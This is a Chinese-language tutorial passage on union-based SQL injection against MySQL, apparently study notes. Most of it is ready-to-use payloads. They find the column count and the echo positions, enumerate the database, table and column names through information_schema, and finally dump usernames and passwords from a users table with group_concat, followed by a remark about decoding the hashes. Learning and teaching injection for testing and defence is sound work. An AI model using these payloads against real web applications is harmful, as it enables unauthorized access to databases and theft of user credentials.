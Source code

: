 - 条件：如果使用union查询，要先猜字段数量，因为通过union连接的两条SQL语句必须字段数列一样。最后面加上order by 2 得出到底有多少行（就是一直减少到前端出来东西为止）

  ```sql
  xxx union select 1,2,3,4,6,7,8
  #这里也要看看有多少select出来的可以在前端看到，一直减少select后面的数字知道前端刷新出东西，也就是确定回显位
  #然后可以把回显位的地方替换成user()、database()、version()等查询查询命令在前端得到对应信息
  ```

- 步骤：判断完回显点之后

  - 查数据库名：

    ```sql
    1' union select 1,database()#
    1' union select user(),database()#
    ```

  - 查表名 

    ```
    xxx union select 1,2,3,4,TABLE_NAME,6,7,8 from information_schema.TABLES where TABLE_SCHEMA='数据库名' limit 1,1
    ```

    **information_schema.TABLES** 是MySQL自带的，它提供了访问数据库元数据的方式。什么是元数据呢?元数据是关于数据的数据，如数据库名或表名，列的数据类型，或访问权限等。
    因为前端显示的限制，所以要**limit**，**limit 1,1则代表从第一条起，只显示一条**

    但也可以利用函数将查询结果凭借**concat()、group_concat**函数来，这两个函数我们可以简单认为是连接字符串，比如group_concat(user(),database(),version())就是把这三个常量的注入结果连接在一起，当做一个整体字符串显示在注入结果中

    ```
    1' union select 1,group_concat(table_name) from information_schema.tables where table_schema =database()#
    ```

  - 查列名

    利用**information_schema.columns**查列名，后面的**table_name**跟上一步查出的表名

    ```
    1' union select 1,group_concat(column_name) from information_schema.columns where table_name ='users'#
    ```

  - 查用户数据

    利用上一步的到的列名进一步查询用户信息

    ```
    1' or 1=1 union select group_concat(列名1，列名2，列名3),group_concat(password) from 表名 #
    1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #
    1' union select null,group_concat(concat_ws(char(32,58,32),user,password)) from users #  
    ```

  - 最后的到数据可能会被编码，比如 MD5,SM6等，注意解码。

    

    